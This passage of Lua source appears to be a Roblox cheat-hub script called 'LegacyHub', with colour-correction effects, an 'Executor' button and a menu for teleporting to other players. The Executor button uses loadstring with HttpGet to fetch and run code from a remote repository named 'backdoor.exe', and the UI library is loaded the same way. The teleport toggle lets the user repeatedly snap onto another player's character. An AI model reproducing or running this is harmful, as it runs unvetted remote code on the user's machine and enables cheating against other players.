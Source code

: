 local e = Instance.new("ColorCorrectionEffect", a)
e.Brightness = 0
e.Contrast = -0.07
e.Saturation = 0
e.Enabled = true
e.TintColor = Color3.fromRGB(255, 247, 239)
local e2 = Instance.new("ColorCorrectionEffect", a)
e2.Brightness = 0.2
e2.Contrast = 0.45
e2.Saturation = -0.1
e2.Enabled = true
e2.TintColor = Color3.fromRGB(255, 255, 255)
local s = Instance.new("SunRaysEffect", a)
s.Enabled = true
s.Intensity = 0.01
s.Spread = 0.146

print("RTX Graphics loaded! Created by BrickoIcko")

end)

Page:Button("Executor⬅️",function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
end)

Page:Button("Teleport Player⬅️",function()
local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("LegacyHub Teleport Player", "Ocean")
local Tab = Window:NewTab("Player")
local Section = Tab:NewSection("Select Player!")
Plr = {}
for i,v in pairs(game:GetService("Players"):GetChildren()) do
    table.insert(Plr,v.Name) 
end
local drop = Section:NewDropdown("Select Player!", "Click To Select", Plr, function(t)
   PlayerTP = t
end)

Section:NewButton("Refresh Player","Refresh Player", function()
  drop:Refresh(Plr)
end)

Section:NewButton("Click To TP", "", function()
    game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end)
Section:NewToggle("Auto Tp", "", function(t)
_G.TPPlayer = t
while _G.TPPlayer do wait()
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end
end)
end)

Page:line()
